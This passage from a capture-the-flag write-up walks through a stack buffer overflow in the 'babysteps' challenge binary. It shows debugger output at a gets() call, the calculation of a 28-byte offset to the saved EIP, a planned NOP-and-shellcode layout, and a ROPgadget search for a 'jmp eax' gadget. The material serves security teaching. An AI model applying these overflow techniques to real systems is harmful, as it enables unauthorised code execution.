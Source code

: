 ```asm  
   0x80492c0 <ask_baby_name+39> lea    eax, [ebp-0x18]  
   0x80492c3 <ask_baby_name+42> push   eax  
   0x80492c4 <ask_baby_name+43> call   0x8049040 <gets@plt>  
→  0x80492c9 <ask_baby_name+48> add    esp, 0x10  
   0x80492cc <ask_baby_name+51> mov    ebx, DWORD PTR [ebp-0x4]  
   0x80492cf <ask_baby_name+54> leave  
   0x80492d0 <ask_baby_name+55> ret  
   0x80492d1 <main+0>         lea    ecx, [esp+0x4]  
   0x80492d5 <main+4>         and    esp, 0xfffffff0  
───────────────────────────────────────────────────────────────────────────────
threads ────  
[#0] Id 1, Name: "babysteps", stopped 0x80492c9 in ask_baby_name (), reason:
BREAKPOINT  
─────────────────────────────────────────────────────────────────────────────────
trace ────  
[#0] 0x80492c9 → ask_baby_name()  
[#1] 0x8049496 → main()  
────────────────────────────────────────────────────────────────────────────────────────────  
gef➤  search-pattern evyatar  
[+] Searching 'evyatar' in memory  
[+] In '[stack]'(0xfffdd000-0xffffe000), permission=rwx  
 0xffffd070 - 0xffffd077  →   "evyatar"  
gef➤  info frame  
Stack level 0, frame at 0xffffd090:  
eip = 0x80492c9 in ask_baby_name; saved eip = 0x8049496  
called by frame at 0xffffd0c0  
Arglist at 0xffffd088, args:  
Locals at 0xffffd088, Previous frame's sp is 0xffffd090  
Saved registers:  
 ebx at 0xffffd084, ebp at 0xffffd088, eip at 0xffffd08c  
```

Before we calculate the offset between the ```buffer``` to ```eip``` we can
see that our input stored on ```EAX```:  
```asm  
$eax   : 0xffffd070  →  "evyatar"  
```

It's can help us to build the payload.

So the buffer locates on ```0xffffd070``` and ```EIP``` on ```0xffffd08c``` so
the offset is ```28``` bytes:  
```console  
... |   buffer[BUFFER_SIZE]   | 12 bytes  | EIP | ...  
```

So because we know the buffer on ```eax``` we can put ```NOP*28``` and put our
shellcode after the ```EIP``` and set to ```EIP``` gadget of ```jmp eax```:  
```console  
... | /x90 * 28 (Address in EAX)  |  gadget on "jmp eax" (EIP) | ....  
```

Let's find the relevant gadget:  
```console  
┌─[evyatar@parrot]─[/nahamcon/binary_exploitation/babysteps]  
└──╼ $ ROPgadget --binary babysteps | grep "jmp eax"  
0x08049543 : add eax, ebx ; jmp eax  
0x08049545 : jmp eax  
0x0804953c : mov eax, dword ptr [eax + ebx - 0x1c78] ; add eax, ebx ; jmp eax  
```
